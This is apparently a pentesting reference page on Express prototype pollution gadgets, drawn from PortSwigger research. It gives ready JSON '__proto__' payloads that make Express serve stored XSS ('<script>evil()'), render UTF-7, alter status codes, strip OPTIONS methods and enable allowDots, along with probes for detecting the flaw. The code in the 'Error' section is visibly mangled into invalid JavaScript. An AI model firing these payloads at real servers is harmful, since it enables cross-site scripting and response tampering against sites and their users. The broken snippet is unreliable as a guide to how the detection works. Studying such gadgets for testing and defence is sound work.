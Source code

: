 ```yaml
---
layout: page
title: Express Prototype Pollution Gadgets
category: nodejs-deserialization
toc:
  sidebar: left
---
```


## Serve XSS responses

**For further details** [**take a look to the original reserach**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({ type: "application/json" }));
app.post("/", function (req, res) {
  _.merge({}, req.body);
  res.send(req.body);
});
```

In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```

By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```

## Safe Scanning Techinques

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{ "__proto__": { "json spaces": " " } }
```

Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```

### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```

It requires the **CORS module to be installed**

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{ "__proto__": { "status": 510 } }
```

### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
({}).__proto__.__proto__ = {}(
  //throws type exception
  {}
).__proto__.__proto__ = "x"; //no-op does not throw exception
```

### Reflected Value

When an application includes an object in its response, creating an attribute with an **unusual name alongside `__proto__`** can be insightful. Specifically, if **only the unusual attribute is returned** in the response, this could indicate the application's vulnerability:

```json
{ "unusualName": "value", "__proto__": "test" }
```

Moreover, in scenarios where a library like Lodash is employed, setting a property both via prototype pollution (PP) and directly inside the object offers another diagnostic approach. If such a property is omitted from the response, it suggests that Lodash is verifying the existence of the property in the target object before merging:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```

## Misc

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{ "__proto__": { "allowDots": true } }
```

**`?foo.bar=baz` create an object in Node.**

## References

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)
